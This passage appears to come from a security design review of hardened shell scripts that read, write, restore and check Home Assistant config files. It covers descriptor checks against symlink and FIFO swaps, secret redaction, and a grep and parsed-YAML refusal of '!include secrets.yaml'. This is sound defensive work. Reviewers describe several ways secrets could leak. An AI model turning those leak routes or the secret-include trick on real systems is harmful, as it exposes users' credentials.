[ "$(stat -L -c %h "$fd3")" = 1 ] || exit 21

exec 4< "$backup"
fd4=/proc/$me/fd/4
[ "$(readlink "$fd4")" = "$backup" ] || exit 19
[ -f "$fd4" ] || exit 19
[ "$(stat -L -c %h "$fd4")" = 1 ] || exit 21
want=$(sha256sum "$fd4" | cut -d" " -f1)

umask_for "$fd3"
set -C
exec 5> "$tmp"
set +C
cat "$fd3" >&5 || { rm -f "$tmp"; exit 15; }
chown -h "$(stat -L -c %u:%g "$fd3")" "$tmp" 2>/dev/null || true
fd5=/proc/$me/fd/5
[ "$(readlink "$fd5")" = "$tmp" ] || exit 15
[ -f "$fd5" ] || exit 15
[ "$(stat -L -c %h "$fd5")" = 1 ] || exit 21

rb="$real.eshu-tmp-rb-$me"
[ ! -e "$rb" ] && [ ! -L "$rb" ] || exit 19
umask_for "$fd4"
set -C
exec 6> "$rb"
set +C
cat "$fd4" >&6 || { rm -f "$rb"; exit 16; }
chown -h "$(stat -L -c %u:%g "$fd4")" "$rb" 2>/dev/null || true
[ "$(readlink /proc/$me/fd/6)" = "$rb" ] || exit 16
[ "$(stat -L -c %h /proc/$me/fd/6)" = 1 ] || exit 21
mv -f "$rb" "$real" || exit 16
[ "$(readlink /proc/$me/fd/6)" = "$real" ] || exit 1

redact() {
  set -f
  in=$(cat)
  list=$(find /homeassistant -xdev -name secrets.yaml -type f 2>/dev/null) || list=""
  oldifs=$IFS
  IFS='
'
  for f in $list; do
    [ -n "$f" ] || continue
    [ -f "$f" ] || continue
    exec 9< "$f"
    fd9=/proc/self/fd/9
    if [ "$(readlink "$fd9")" != "$f" ] || [ ! -f "$fd9" ] || \
       [ "$(stat -L -c %h "$fd9")" != 1 ]; then
      exec 9<&-
      continue
    fi
    in=$(printf "%s\n" "$in" | awk -v fd="$fd9" '
      function add1(v) { sub(/[ \t]+$/, "", v); if (length(v) >= 4) s[++n] = v }
      function add(v,   q, b) {
        sub(/^[ \t]+/, "", v); sub(/[ \t]+$/, "", v)
        if (v == "") return
        q = substr(v, 1, 1)
        if (q == "\"" || q == "\047") {
          add1(v)
          b = substr(v, 2)
          sub(/["\047][ \t]*$/, "", b)
          if (q == "\"") { gsub(/\\"/, "\"", b); gsub(/\\\\/, "\\", b) }
          else gsub(/\047\047/, "\047", b)
          add1(b)
          return
        }
        add1(v)
        p = index(v, " #")
        if (p > 0) add1(substr(v, 1, p - 1))
      }
      BEGIN {
        inblock = 0
        while ((getline l < fd) > 0) {
          if (l ~ /^[ \t]*[A-Za-z0-9_]+:[ \t]*[|>][-+]?[ \t]*$/) { inblock = 1; continue }
          if (inblock) {
            if (l ~ /^[ \t]+[^ \t]/) { add(l); continue }
            inblock = 0
          }
          if (match(l, /^[A-Za-z0-9_]+:[ \t]*/)) add(substr(l, RLENGTH + 1))
        }
        close(fd)
      }
      { for (i = 1; i <= n; i++)
          while ((p = index($0, s[i])) > 0)
            $0 = substr($0, 1, p - 1) "***" substr($0, p + length(s[i]))
        print }')
    exec 9<&-
  done
  IFS=$oldifs
  printf "%s\n" "$in"
}

crc=0
out=$(SUPERVISOR_TOKEN="$SUPERVISOR_TOKEN" timeout 100 ha core check 2>&1) || crc=$?
printf "%s\n" "$out" | redact | head -c 65536
if [ "$crc" -ne 0 ]; then
  mv -f "$tmp" "$real" || exit 1
  [ "$(readlink "$fd5")" = "$real" ] || exit 1
  exit 18
fi
got=$(sha256sum /proc/$me/fd/6 | cut -d" " -f1)
[ "$got" = "$want" ] || exit 1
rm -f "$tmp"
printf "\n"
printf "ok %s\n" "$got"
```

**READ_SCRIPT**

```bash
# READ_SCRIPT — the body of the single sh -c. Exit codes: 11/12/13/19/21;
# the bytes go to stdout unchanged.
set -eu
set -f
PATH=/usr/bin:/bin:/usr/sbin:/sbin; export PATH
me=$$
path=$1

case "$path" in /*) ;; *) exit 19 ;; esac
case "$path" in *.yaml|*.yml) ;; *) exit 19 ;; esac
[ "$(basename "$path")" != secrets.yaml ] || exit 19

real=$(realpath "$path") || exit 12
[ -f "$real" ] || exit 12
dir=$(dirname "$real")
[ -d "$dir" ] || exit 11
case "$dir" in
  /homeassistant|/homeassistant/packages|/homeassistant/packages/*) ;;
  *) exit 11 ;;
esac
[ "$(realpath "$(dirname "$path")")" = "$dir" ] || exit 13
[ "$(basename "$real")" = "$(basename "$path")" ] || exit 13
[ "$(basename "$real")" != secrets.yaml ] || exit 19

exec 3< "$real"
fd3=/proc/$me/fd/3
[ "$(readlink "$fd3")" = "$real" ] || exit 13
[ -f "$fd3" ] || exit 12
[ "$(stat -L -c %h "$fd3")" = 1 ] || exit 21
cat "$fd3"
```

**SECRETS_KEYS_SCRIPT**

```bash
# SECRETS_KEYS_SCRIPT — READ_SCRIPT with the last line replaced and with the two
# `secrets.yaml` refusals removed: it is the one script that must open that
# file (H1), and it prints key names only.
set -eu
set -f
PATH=/usr/bin:/bin:/usr/sbin:/sbin; export PATH
me=$$
path=$1

case "$path" in /*) ;; *) exit 19 ;; esac
case "$path" in *.yaml|*.yml) ;; *) exit 19 ;; esac

real=$(realpath "$path") || exit 12
[ -f "$real" ] || exit 12
dir=$(dirname "$real")
[ -d "$dir" ] || exit 11
case "$dir" in
  /homeassistant|/homeassistant/packages|/homeassistant/packages/*) ;;
  *) exit 11 ;;
esac
[ "$(realpath "$(dirname "$path")")" = "$dir" ] || exit 13
[ "$(basename "$real")" = "$(basename "$path")" ] || exit 13

exec 3< "$real"
fd3=/proc/$me/fd/3
[ "$(readlink "$fd3")" = "$real" ] || exit 13
[ -f "$fd3" ] || exit 12
[ "$(stat -L -c %h "$fd3")" = 1 ] || exit 21
sed -n "s/^\([A-Za-z0-9_][A-Za-z0-9_]*\):.*/\1/p" "$fd3"
```

**CHECK_SCRIPT**

```bash
# CHECK_SCRIPT — ha_config_check: no file argument, the whole tree is checked.
# Exit codes: 11/13/18/20; `ok check` is printed only on exit 0.
set -eu
set -f
PATH=/usr/bin:/bin:/usr/sbin:/sbin; export PATH
me=$$
[ -d /homeassistant ] || exit 11
[ ! -L /homeassistant ] || exit 13
[ "$(realpath /homeassistant)" = /homeassistant ] || exit 13

token_file=/run/s6/container_environment/SUPERVISOR_TOKEN
[ -r "$token_file" ] || exit 20
SUPERVISOR_TOKEN=$(cat "$token_file") || exit 20


redact() {
  set -f
  in=$(cat)
  list=$(find /homeassistant -xdev -name secrets.yaml -type f 2>/dev/null) || list=""
  oldifs=$IFS
  IFS='
'
  for f in $list; do
    [ -n "$f" ] || continue
    [ -f "$f" ] || continue
    exec 9< "$f"
    fd9=/proc/self/fd/9
    if [ "$(readlink "$fd9")" != "$f" ] || [ ! -f "$fd9" ] || \
       [ "$(stat -L -c %h "$fd9")" != 1 ]; then
      exec 9<&-
      continue
    fi
    in=$(printf "%s\n" "$in" | awk -v fd="$fd9" '
      function add1(v) { sub(/[ \t]+$/, "", v); if (length(v) >= 4) s[++n] = v }
      function add(v,   q, b) {
        sub(/^[ \t]+/, "", v); sub(/[ \t]+$/, "", v)
        if (v == "") return
        q = substr(v, 1, 1)
        if (q == "\"" || q == "\047") {
          add1(v)
          b = substr(v, 2)
          sub(/["\047][ \t]*$/, "", b)
          if (q == "\"") { gsub(/\\"/, "\"", b); gsub(/\\\\/, "\\", b) }
          else gsub(/\047\047/, "\047", b)
          add1(b)
          return
        }
        add1(v)
        p = index(v, " #")
        if (p > 0) add1(substr(v, 1, p - 1))
      }
      BEGIN {
        inblock = 0
        while ((getline l < fd) > 0) {
          if (l ~ /^[ \t]*[A-Za-z0-9_]+:[ \t]*[|>][-+]?[ \t]*$/) { inblock = 1; continue }
          if (inblock) {
            if (l ~ /^[ \t]+[^ \t]/) { add(l); continue }
            inblock = 0
          }
          if (match(l, /^[A-Za-z0-9_]+:[ \t]*/)) add(substr(l, RLENGTH + 1))
        }
        close(fd)
      }
      { for (i = 1; i <= n; i++)
          while ((p = index($0, s[i])) > 0)
            $0 = substr($0, 1, p - 1) "***" substr($0, p + length(s[i]))
        print }')
    exec 9<&-
  done
  IFS=$oldifs
  printf "%s\n" "$in"
}

crc=0
out=$(SUPERVISOR_TOKEN="$SUPERVISOR_TOKEN" timeout 100 ha core check 2>&1) || crc=$?
printf "%s\n" "$out" | redact | head -c 65536
[ "$crc" -eq 0 ] || exit 18
printf "\n"
printf "ok check\n"
```

#### The W5 matrix: what was run

The test lifts each body from the design's constant, substitutes its own temp
root for `/homeassistant`, its own token file and a short `timeout` bound, and
runs it as `busybox sh -c <body> _ …` with a `PATH` that holds **only** BusyBox
applet links — `sh realpath readlink stat chown cat sha256sum cut dirname
basename timeout printf find grep sed awk head mv rm ln sleep echo mkdir touch
chmod id wc ls tr sort test env true false` — plus a stub `ha`; then again
under `dash` with the system applets. The stub `ha` can pass, fail, print a
synthetic secret, and plant a symlink at the backup or the target before it
fails. Every case below runs in both userlands and passes in both.

| # | case | expected |
|---|---|---|
| 1 | good write | content replaced; backup holds the old bytes; both `0640`; last line `ok <sha of the new content>`; blank line before it; no temp left |
| 2 | wrong `expect` | 14; nothing created |
| 3 | relative path / file outside the tree / `secrets.yaml` | 19 / 11 / 19 |
| 4 | check fails | 18; the target is the old content; mode `0640` |
| 5 | backup's name swapped for a link to a sentinel, check fails | 18; target is the old content; sentinel in no file, no output |
| 6 | target's name swapped for a link to the sentinel, check fails | 18; target is a regular file with the old content; sentinel untouched |
| 7 | symlink planted at the backup name / dangling symlink at the temp name | 19 / 19 |
| 8 | hard link on the target | 21 |
| 9 | target swapped for a link between `realpath` and the open | 13; nothing printed |
| 10 | `foo: !include secrets.yaml` and `… ../secrets.yaml` | 22; target unchanged; no temp, no backup |
| 11 | `0600` file, check fails | the target is `0600` again |
| 12 | good restore | content is the backup's; `ok <sha of the backup>`; mode kept; temp cleaned |
| 13 | restore, check fails | 18; pre-restore content back; mode kept |
| 14 | restore whose check rewrites the file | 1; no `ok` line |
| 15 | symlinked backup name / backup swapped after the `-L` check | 19 / 19; sentinel never read |
| 16 | read returns the bytes / `secrets.yaml` / a symlink / a hard link / outside the tree | bytes / 19 / 13 / 21 / 11 |
| 17 | read, target swapped between `realpath` and the open | 13; nothing printed |
| 18 | keys script | key names only, no values |
| 19 | redaction: trailing comment, decoded double quote, decoded single quote, sibling package's `secrets.yaml` | all `***`; the ordinary line survives; a 3-character value is not redacted |
| 20 | a secret straddling byte 65 536 | no prefix of it; output bounded; status on its own last line |

80 assertions per userland, 160 in total, all green. On the round-7 text,
cases 5, 15 and 19 fail for lack of a mechanism (the backup copy by name, the
restore's open by name, the single-quote decode), case 17 leaks the sentinel,
and case 9 refuses — but by accident, with 14 from the hash check, which is
reading the file the attacker chose.

#### What the security reviewer should read

Only these parts changed:

* **Z1's read** — the `exec 3<` / `readlink` / `stat -L %h` pattern in all
  five scripts, and `redact`'s `/proc/self/fd/9` note;
* **Z2's `redact`** — the tree-wide `find`, the per-file descriptor, and the
  three parsing rules (comment, double quote, single quote), including the
  `\047\047` reason;
* **Z4's create and rollback** — `exec 4>`/`5>`/`6>`, `umask_for`, `chown -h`,
  and the `readlink "$fd5" = "$real"` check after each `mv`;
* **AH4's refusal** in the preflight and the fd-5 scan;
* the **exit-code table** (22 is new; 1 now covers a failed open);
* the **three nits**, which are one line of text, one `printf "\n"`, and one
  re-resolution.

The rest of Z1–Z9 is unchanged: the pin and TOFU rules (Q2), the pruning
(Q4), the banner and `!env_var` refusal (Z3), the binding as an operator
setting (Z5), the gating and dry-run sets, and the dashboard's hashing of the
bytes it received.

`bash scripts/verify.sh`: `2331 passed, 7 warnings in 432.09s (0:07:12)` (docs only).

_(security reviewer)_

**Security review, round 8 (2026-11-11, at `a92c789`): AH1 and AH3 are
approved in shape. Four more must-fixes before the design closes: AL1 (check
each new file before writing to it), AL2 (`redact` must fail closed), AL3
(collect and replace values correctly) and AL4 (AH4 on parsed YAML). Then I
re-read only those parts.**

AH1's pattern is right, and the `/proc/self/fd/9` reasoning in `redact` is
correct. AH3's `umask_for` is right, including the three-digit cut. The
rollback now reads the backup through fd 4, which closes the token-leak case
from round 7. The nits are fixed.

* **AL1 (must): check a new file's descriptor before writing a byte to it.**
  * Under `set -C`, dash and BusyBox `ash` use `O_EXCL` only when the name
    does not exist. A name that already exists as something other than a
    regular file is opened for writing without it. The `[ ! -e ] && [ ! -L ]`
    test before each create leaves a window where the name can be replaced.
  * Every create then writes **before** its `readlink` check: `cat "$fd3"
    >&4`, `cat >&5`, `cat "$fd4" >&6`, and the restore's fd 5 and fd 6. A
    swap in that window sends the bytes, as root, to whatever the name now
    points at. For fd 5 those bytes are the agent's content.
  * **Fix:** the checks (`readlink` equals the name, `-f`, link count 1) come
    directly after each `exec N>` and before any write. A failure closes the
    descriptor and exits.
  * The write's rollback (fd 6) has no checks at all today. It gets the same
    three checks and, after its `mv`, the same `readlink` check as fd 5
    (exit 1).
* **AL2 (must): `redact` must fail closed.** In three cases it prints values
  unredacted:
  * `list=$(find …) || list=""`: `find` exits non-zero on any error, such as
    a directory removed during the walk. Every value is then dropped, not
    only the one it could not reach.
  * A candidate that fails `readlink`, `-f` or the link-count check is
    skipped with `continue`, so its values are never added.
  * `-type f` leaves out a `secrets.yaml` that is a symlink. HA follows it,
    and some setups use one.
  * **Fix:**
    * Collect both `-type f` and `-type l`.
    * Read each one through its link. A source only adds values to the
      list, so reading through a link can over-redact but never leak.
    * Require only that the opened file is a regular file, so a FIFO or a
      device is refused.
    * Do the `-f` test on the descriptor after the open, not on the name
      before it.
    * If `find` fails, or any candidate can't be opened or read, print no
      check output. Print one fixed line instead (`check output withheld:
      redaction unavailable`). The exit code and the status line work as
      before.
  * **Tests:** a failing `find`, an unreadable candidate, and a symlinked
    `secrets.yaml`.
* **AL3 (must): which values are collected, and the order they are
  replaced in.**
  * **Order.** Values are replaced file by file, in list order. A short
    value that is a substring of a longer one, in the same file or another,
    is replaced first. The rest of the longer value then no longer matches
    and stays in the output.
    * **Fix:** collect every value from every file first. Then replace
      once, longest value first.
    * This also replaces the per-file pass, so the output goes through awk
      once.
  * **Keys.** `^[A-Za-z0-9_]+:` misses keys with `-` or `.` in them, and
    quoted keys. All of these are valid secret names.
    * **Fix:** accept any line that doesn't start with whitespace or `#`
      and contains `:` followed by a space or tab. Take the value after the
      first such `:`. Over-collecting is fine.
    * `SECRETS_KEYS_SCRIPT` uses the same narrow pattern, so it hides those
      keys from the key list. Widen it the same way.
  * **A quoted value followed by a comment.** The value is cut at the last
    character of the line, not at the closing quote. So the decoded form of
    `"…"  # note` is never added.
    * **Fix:** end a quoted value at its closing quote, skipping `\"` in
      double quotes and `''` in single quotes. Ignore anything after it.
  * **Escapes (should).** Only `\"` and `\\` are decoded. Also decode `\t`,
    `\n`, `\/` and `\xNN`. State in the setup doc that `\u`/`\U` escapes
    and multi-line plain scalars are not decoded.
  * **Tests:** a value inside a longer value, in both orders and across two
    files; a hyphenated key; a quoted value with a trailing comment.
* **AL4 (must): AH4's preflight check works on parsed YAML, not lines.**
  * A line scan can't see every way YAML attaches a tag to a value. It
    misses:
    * a tag whose value is on a later line;
    * a tag spelled another way that resolves to the same one;
    * a file name written with escapes inside a double-quoted scalar.
    I'm not writing out examples here. Each of them loads `secrets.yaml`
    through `!include` and passes `grep`.
  * **Fix:** the dashboard preflight loads the content with a safe loader
    that has constructors for HA's tags. For every `!include` it records the
    target after decoding. It refuses the content with
    `config_secret_include_refused` if:
    * any `!include` target's basename is `secrets.yaml`;
    * the content doesn't parse;
    * the content has a `%TAG` directive or a verbatim (`!<…>`) tag.
  * The script's `grep` stays as a second check, but the preflight is the
    control. The `!env_var` refusal should go through the same parsed
    check.
  * **Tests:** one case per shape above. Keep them in the test file, not in
    this document.
* **AL5 (should): the restore checks the backup's hash before installing
  it.**
  * Today the script installs whatever fd 4 holds, and the dashboard only
    compares hashes afterwards. By then a changed backup is already live and
    has passed `ha core check`.
  * **Fix:** pass the hash the dashboard recorded when it made the backup
    (it is the write's `expect`). Refuse with 14 before the `mv` if `want`
    differs.
* **AL6 (should): `chown` through the descriptor.** `chown uid:gid
  /proc/$me/fd/N`, without `-h`, follows the magic link to the inode that
  was opened. `chown -h` on the name changes whatever is at the name now.
* **Nit: exit codes.** When an `exec` redirection fails, dash exits with 2,
  not 1. I believe BusyBox `ash` does too. Check this in the matrix.
  Either way, the dashboard must map **every** code not in the table to
  `config_state_unknown` (124/125 from `timeout`, 126/127, 2), and the
  table should say so.

After AL1–AL4, I re-read only `redact`, the create blocks and the preflight.
AL5 and AL6 can be checked by the feature reviewer.

That round is below (round 9).

### Round 9 — AL1–AL6 and the exit-code note (design round)

**Design only; no code on this branch.** AL1–AL4 (must), AL5/AL6 (should) and
the exit-code nit are folded below, and the five scripts are restated at the
end. The scripts were run again under **BusyBox `sh`** and **`dash`**: 82
checks per userland, 164 in all, each of the new ones failing on the round-8
text where it should. Where an earlier round and this one disagree, this round
wins.

#### AL1 — a new file is checked on its descriptor, before a byte is written

**The premise, measured.** Under `set -C`, `dash` and BusyBox `ash` refuse a
name that exists as a **symlink** (`cannot create … File exists`), but they
**open a FIFO**: the redirection succeeds and the bytes go into the pipe. The
matrix proves it: a FIFO planted at the backup name after the `[ ! -e ]`
check, with a reader attached, receives the requested file's bytes from the
round-8 script. A FIFO needs no privileges to plant, so this is a real leak of
the target's content to anyone who can write in the config directory.

**The fix.** The three checks run on the descriptor, straight after its open
and before any write through it:

```sh
fd_ok() {
  [ "$(readlink "$1")" = "$2" ] && [ -f "$1" ] && [ "$(stat -L -c %h "$1")" = 1 ]
}

umask_for "$fd3"
set -C
exec 4> "$backup"
set +C
fd4=/proc/$me/fd/4
fd_ok "$fd4" "$backup" || { exec 4>&-; rm -f "$backup"; exit 15; }
cat "$fd3" >&4 || { rm -f "$backup"; exit 15; }
```

* `-f /proc/$$/fd/4` is what refuses a FIFO or a device: the magic link
  follows to the inode that was opened, so the test is about the object, not
  the name.
* the `readlink` test catches a name that was renamed away or replaced after
  the open;
* the link count catches a hard link.
* every create gets it: the backup (fd 4, exit 15), the new content (fd 5,
  exit 16), **the write's rollback (fd 6, exit 1)** — which had no checks at
  all before — and the restore's fd 5 and fd 6.
* the rollback additionally confirms the `mv` installed the inode the
  descriptor holds: `[ "$(readlink "$fd6")" = "$real" ] || exit 1`, the same
  check fd 5 gets after its `mv`.

A refused create closes its descriptor and removes the file it created; a
FIFO has no name to remove, so `rm -f` is a no-op there.

#### AL2 — redaction never fails open

Three failure paths are closed:

* **Symlinked `secrets.yaml`.** `find` now lists `-type f -o -type l`, and the
  file is read *through* the link. A source only ever *adds* values, so
  reading through a link can over-redact but cannot leak.
* **A lost walk.** `find` failing (`|| rc=$?`, not `|| list=""`) withholds:
  one dropped candidate means every value from it is missing, so the whole
  output is withheld rather than printed unredacted.
* **A candidate that cannot be qualified.** Each candidate is opened in a
  **subshell** and the *opened* file must be regular:

  ```sh
  if ! ( exec 9< "$f" 2>/dev/null && [ -f /proc/self/fd/9 ] ); then
    printf "%s\n" "$WITHHELD"; return 0
  fi
  ```

  The subshell is not a style choice: a failed `exec` redirection ends a
  non-interactive shell (dash exits **2**, BusyBox `ash` exits **1**, both
  measured), so an open in the script body would lose the withheld line and
  the check output with it. In a subshell the failure is just a non-zero
  status and the script can withhold.
* **Failure means "no check output", not "no output".** When anything fails,
  redaction prints one fixed line instead of the check output:

  ```
  [ESHU check output withheld: redaction unavailable]
  ```

  The exit code and the status line are unchanged, so the dashboard still
  records the write and still reports `ok` or the failed check.

A FIFO named `secrets.yaml` is simply **not a candidate** (`-type f -o -type
l` excludes it), so it neither blocks nor withholds — HA cannot read it
either. A symlink to a FIFO or to a directory *is* a candidate and withholds,
because `-f` on the opened descriptor refuses it.

#### AL3 — which values are collected, and in what order they are replaced

* **One pass, longest first.** Every value from every file is collected
  first; the list is sorted by length, longest first, and the replacement
  runs once over the check output. A short value that is a prefix of a longer
  one can no longer eat the longer one's front and leave the tail printed.
  The per-file awk calls are gone; the output goes through awk once.
* **Keys.** A key is any line that does not start with whitespace or `#` and
  whose first `:` is followed by a space or a tab; the value is everything
  after that `:`. That accepts `key-with-dash`, `key.with.dots` and
  `"a quoted key"`. The same rule is in `SECRETS_KEYS_SCRIPT`, which used the
  narrow `[A-Za-z0-9_]` class and therefore hid those names from the key
  list.
* **A quoted value ends at its closing quote.** The scan walks the value,
  skipping `\"` inside double quotes and `''` inside single quotes, and
  ignores anything after the closing quote — so `"value"  # note` adds the
  value (and its decoded form), which round 8 cut at the end of the line.
* **Escapes (the should).** A double-quoted value also decodes `\n`, `\t`,
  `\/` and `\xNN`; the setup doc states that `\u`/`\U` and multi-line plain
  scalars are not decoded.
* Every form is still added (as written, and decoded), because over-redaction
  is harmless and a missing value is a leak.

#### AL4 — the `!include` refusal on parsed YAML

The dashboard preflight loads the proposed content with `yaml.SafeLoader`
plus constructors for HA's tags (`!include`, `!include_dir_*`, `!secret`,
`!env_var`, `!input`), so the value is known — decoded, as a string — after
the YAML parser has attached it, instead of being guessed from the raw text.
It refuses the content with `config_secret_include_refused` when:

* any `!include` target's basename is `secrets.yaml` (after YAML decoding, so
  an escape inside a double-quoted scalar cannot hide it);
* the content does not parse (`config_yaml_invalid`);
* the content carries a `%TAG` directive or a verbatim `!<…>` tag
  (`config_tag_refused`): both can rename or spell a tag the checker does not
  know, and HA config has no legitimate use for either.

`!env_var` goes through the same parsed walk (refused as
`config_env_var_refused`). The script's `grep` stays as a second check — it
catches the plain spellings even if the preflight is bypassed — but the
preflight is the control.

The tests for the three shapes live in the test file, not in this document,
and their fixtures are generic (`foo.yaml`, `secrets.yaml`, a synthetic
value), because this repository is public.

#### AL5 — the restore checks the backup's hash before installing it

The restore takes a fourth argument, the hash the dashboard recorded when it
made the backup (the write's `expect`), and refuses with exit 14 before the
`mv` when the backup's bytes no longer match:

```sh
want=$(sha256sum "$fd4" | cut -d" " -f1)
[ "$want" = "$expect" ] || exit 14
```

Without it, a changed backup was installed and passed `ha core check` before
the dashboard compared anything.

#### AL6 — `chown` through the descriptor

`chown uid:gid /proc/$$/fd/N` — no `-h` — follows the magic link to the inode
that was opened. `chown -h` on the name changes whatever is at the name *now*,
which is the window AL1 closes for writes. Every `chown` in both scripts
targets a descriptor (`$fd4`, `$fd5`, `$fd6`); the backup's owner comes from
fd 3, the new content's from fd 3, the rollback's from fd 4.

#### The exit-code nit

A failed `exec` redirection is not in the table, and the two shells disagree:

| shell | exit code on a failed `exec N<` redirection |
|---|---|
| `dash` | **2** |
| BusyBox `ash` | **1** |

Both print nothing and run nothing after it. The scripts therefore do not try
to convert it, and the dashboard **maps every code that is not in the table to
`config_state_unknown`** — 2 and 1 included, along with `timeout`'s 124/125,
126/127 and 130. The table below says so on its first row.

#### Exit codes, as shipped

| code | meaning |
|---|---|
| anything not listed below | the dashboard reports `config_state_unknown` (U3): an `exec` redirection failure (dash 2, ash 1), `timeout`'s 124/125, 126/127, 130 |
| 10, 11 | the directory is not the HA config tree |
| 12 | the file is missing |
| 13 | a symlink, an escape from the tree, or the opened file is not the path that was resolved |
| 14 | the hash changed — the target since the dashboard read it, or the backup since the dashboard made it (AL5) |
| 15 | the backup could not be created or qualified (write) / the pre-restore copy could not be (restore) |
| 16 | the new content or the restored file could not be created or qualified |
| 17 | the `mv` into place failed, or it did not install the inode that was written |
| 18 | `ha core check` failed and the original content was put back |
| 19 | a refused argument or file name |
| 20 | the token file is missing |
| 21 | a hard link, or another link on a file we just created |
| 22 | the content is refused — `!include` of a secrets file |

#### The scripts, final

Each script is the **body** of one `sh -c` call, quoted with `shlex.quote` by
the runner. `/homeassistant` is the config root, the token path and
`timeout 100` are constants.

The three `redact()` bodies are Round 10's (AQ1) and are identical;
everything else is Round 9's.

**WRITE_SCRIPT**

```bash
# WRITE_SCRIPT — one sh -c body. Arguments: $1 path, $2 expect, $3 backup,
# $4 tmp. Exit codes: the table above.
set -eu
set -f
PATH=/usr/bin:/bin:/usr/sbin:/sbin; export PATH
me=$$
umask_for() {
  m=$(stat -L -c %a "$1")
  m=${m#"${m%???}"}
  umask "$(printf "%o" $(( 0777 & ~0$m )))"
}
fd_ok() {
  [ "$(readlink "$1")" = "$2" ] && [ -f "$1" ] && [ "$(stat -L -c %h "$1")" = 1 ]
}
path=$1; expect=$2; backup=$3; tmp=$4

case "$path"   in /*) ;; *) exit 19 ;; esac
case "$backup" in /*) ;; *) exit 19 ;; esac
case "$tmp"    in /*) ;; *) exit 19 ;; esac
case "$path" in *.yaml|*.yml) ;; *) exit 19 ;; esac
[ "$(basename "$path")" != secrets.yaml ] || exit 19

token_file=/run/s6/container_environment/SUPERVISOR_TOKEN
[ -r "$token_file" ] || exit 20
SUPERVISOR_TOKEN=$(cat "$token_file") || exit 20

real=$(realpath "$path") || exit 12
[ -f "$real" ] || exit 12
dir=$(dirname "$real")
[ -d "$dir" ] || exit 11
case "$dir" in
  /homeassistant|/homeassistant/packages|/homeassistant/packages/*) ;;
  *) exit 11 ;;
esac
[ "$(realpath "$(dirname "$path")")" = "$dir" ] || exit 13
[ "$(basename "$real")" = "$(basename "$path")" ] || exit 13
[ "$(basename "$real")" != secrets.yaml ] || exit 19

case "$backup" in
  "$real".eshu-[0-9][0-9][0-9][0-9][0-9][0-9][0-9][0-9][0-9][0-9].bak) ;;
  *) exit 19 ;;
esac
case "$tmp" in "$real".eshu-tmp-*) ;; *) exit 19 ;; esac
[ "$(dirname "$backup")" = "$dir" ] || exit 19
[ "$(dirname "$tmp")" = "$dir" ] || exit 19
[ ! -e "$backup" ] && [ ! -L "$backup" ] || exit 19
[ ! -e "$tmp" ] && [ ! -L "$tmp" ] || exit 19

exec 3< "$real"
fd3=/proc/$me/fd/3
[ "$(readlink "$fd3")" = "$real" ] || exit 13
[ -f "$fd3" ] || exit 12
[ "$(stat -L -c %h "$fd3")" = 1 ] || exit 21

[ "$(sha256sum "$fd3" | cut -d" " -f1)" = "$expect" ] || exit 14

# AL1: the backup is created and qualified BEFORE it is written through.
umask_for "$fd3"
set -C
exec 4> "$backup"
set +C
fd4=/proc/$me/fd/4
fd_ok "$fd4" "$backup" || { exec 4>&-; rm -f "$backup"; exit 15; }
cat "$fd3" >&4 || { rm -f "$backup"; exit 15; }
# AL6: chown the inode the descriptor holds, not whatever the name points at.
chown "$(stat -L -c %u:%g "$fd3")" "$fd4" 2>/dev/null || true

set -C
exec 5> "$tmp"
set +C
fd5=/proc/$me/fd/5
fd_ok "$fd5" "$tmp" || { exec 5>&-; rm -f "$tmp"; exit 16; }
cat >&5 || { exec 5>&-; rm -f "$tmp"; exit 16; }
chown "$(stat -L -c %u:%g "$fd3")" "$fd5" 2>/dev/null || true
grep -qE "!include[[:space:]]+.*secrets\.yaml" "$fd5" \
  && { exec 5>&-; rm -f "$tmp" "$backup"; exit 22; }

mv -f "$tmp" "$real" || exit 17
[ "$(readlink "$fd5")" = "$real" ] || exit 17

redact() {
  set -f
  WITHHELD='[ESHU check output withheld: redaction unavailable]'
  # AL2: a symlinked secrets.yaml counts too — HA follows it, so a file may be
  # one. The list is every candidate; a find that failed means the list is not
  # trustworthy, and so does a candidate we cannot read.
  rc=0
  list=$(find /homeassistant -xdev -name secrets.yaml \( -type f -o -type l \) 2>/dev/null) || rc=$?
  if [ "$rc" -ne 0 ]; then printf "%s\n" "$WITHHELD"; return 0; fi
  # AQ1: the bytes are read in the subshell that checked the descriptor, through
  # that descriptor — awk never opens a name again, so a swap after the check
  # cannot redirect the read. The combined text is capped at 64 KiB and passed
  # through the environment, never argv. Any failure withholds.
  text=''
  bytes=0
  oldifs=$IFS
  IFS='
'
  for f in $list; do
    [ -n "$f" ] || continue
    # The name test is only here to avoid a blocking open() on a FIFO; what
    # qualifies the file is the descriptor check and the read below.
    if [ ! -f "$f" ]; then printf "%s\n" "$WITHHELD"; return 0; fi
    # A subshell, because a failed exec redirection ends a non-interactive
    # shell (dash 2, ash 1) — and the read uses fd 9, not the name.
    if ! body=$( ( exec 9< "$f" 2>/dev/null || exit 1
                   [ -f /proc/self/fd/9 ] || exit 1
                   cat /proc/self/fd/9 ) ); then
      printf "%s\n" "$WITHHELD"
      return 0
    fi
    n=$(printf "%s" "$body" | wc -c) || { printf "%s\n" "$WITHHELD"; return 0; }
    bytes=$((bytes + n))
    if [ "$bytes" -gt 65536 ]; then printf "%s\n" "$WITHHELD"; return 0; fi
    text="$text$body
"
  done
  IFS=$oldifs
  in=$(cat)
  # AL3/AQ1: one awk pass collects every value from the text the subshells read,
  # sorts longest first, then replaces. Values never leave awk and never touch
  # argv. awk opens no file now, so there is no getline whose return code could
  # be mis-read.
  printf "%s\n" "$in" | ESHU_SECRETS_TEXT="$text" awk -v withheld="$WITHHELD" '
    function hx(c) { return index("0123456789abcdef", tolower(c)) - 1 }
    function hex2(ss) { return hx(substr(ss, 1, 1)) * 16 + hx(substr(ss, 2, 1)) }
    function decode(v,   out, i, c, d) {
      out = ""
      for (i = 1; i <= length(v); i++) {
        c = substr(v, i, 1)
        if (c != "\\") { out = out c; continue }
        d = substr(v, i + 1, 1); i++
        if (d == "n") out = out "\n"
        else if (d == "t") out = out "\t"
        else if (d == "/") out = out "/"
        else if (d == "x" && substr(v, i + 1, 2) ~ /^[0-9A-Fa-f][0-9A-Fa-f]$/) {
          out = out sprintf("%c", hex2(substr(v, i + 1, 2))); i += 2
        } else out = out d
      }
      return out
    }
    function add1(v) {
      sub(/^[ \t]+/, "", v); sub(/[ \t]+$/, "", v)
      if (length(v) >= 4 && !(v in seen)) { seen[v] = 1; s[++n] = v }
    }
    function add(v,   q, i, c, out, closed) {
      sub(/^[ \t]+/, "", v)
      if (v == "") return
      q = substr(v, 1, 1)
      if (q == "\"" || q == "\047") {
        out = ""; closed = 0
        for (i = 2; i <= length(v); i++) {
